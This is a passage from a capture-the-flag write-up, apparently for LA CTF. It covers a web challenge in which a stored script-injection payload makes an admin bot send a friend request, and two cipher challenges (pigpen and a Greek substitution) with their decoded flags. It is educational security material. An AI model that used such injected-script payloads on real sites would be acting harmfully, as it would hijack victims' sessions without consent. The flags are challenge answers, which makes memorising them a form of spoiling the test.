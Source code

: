 ```javascript  
    } else {  
        res.status(400).type("text/html").send(postTemplate.replace("$CONTENT", "post not found :("));  
    }  
});  
```  
![](https://i.imgur.com/tzahad5.png)  

It executed:
![](https://i.imgur.com/pXZtCmv.png)
**Final Payload**  
```javascript  
<script>  
fetch('/friend',{  
    method:'POST',  
    headers:{  
        "Content-type":'application/x-www-form-urlencoded'  
    },  
    body:'username=test'  
})  
</script>  
```  
By making a metapost with this, we can send the admin bot to it and get the flag by refreshing the main page.  
![](https://i.imgur.com/vRN0qEz.png) 
## rolling in the mud  
![](https://i.imgur.com/eCgswS5.png)
I'll be honest; for a bit, I thought this was a Nancy Drew encoding for a bit. But it's [pig pen](https://en.wikipedia.org/wiki/Pigpen_cipher)...

Decrypting that got us:`{eombmcvcalebupauntcnjppmjfnicnappmjfnippmjfni}dugip`  
With a little magic got us:`lactf{rolling_and_rolling_and_rolling_until_the_pigs_go_home}`  
## Greek Cipher  
We are provided with:  
`κςκ ωπν αζπλ ιησι χνοςνθ μσγθσρ λσθ ζπι ιηγ δςρθι ψγρθπζ ςζ ηςθιπρω θνθψγμιγκ πδ νθςζε γζμρωψιςπζ? τγ ζγςιηγρ. κςκ ωπν αζπλ ιησι χνοςνθ μσγθσρ λσθ ψρπξσξοω δονγζι ςζ εργγα? τγ ζγςιηγρ. ς οςαγ ηπλ εργγα μησρσμιγρ οππα ιηπνεη, γυγζ ςδ ς μσζ'ι ργσκ ιηγτ. οσμιδ{ς_ενγθθ_νθςζε_τσζω_εργγα_μησρσμιγρθ_κςκζ'ι_θιπψ_ωπν._λγοο_ψοσωγκ_ς_τνθι_θσω.μπζερσιθ!}`  
Using https://tio.run with  
```python  
print(''.join(sorted(set(input()))))   `  
```  
![](https://i.imgur.com/dC5y0jk.png)
Which I then used substitute on CyberChef   
![](https://i.imgur.com/MPem7LV.png)
Replacing each letter with its current English equivalent
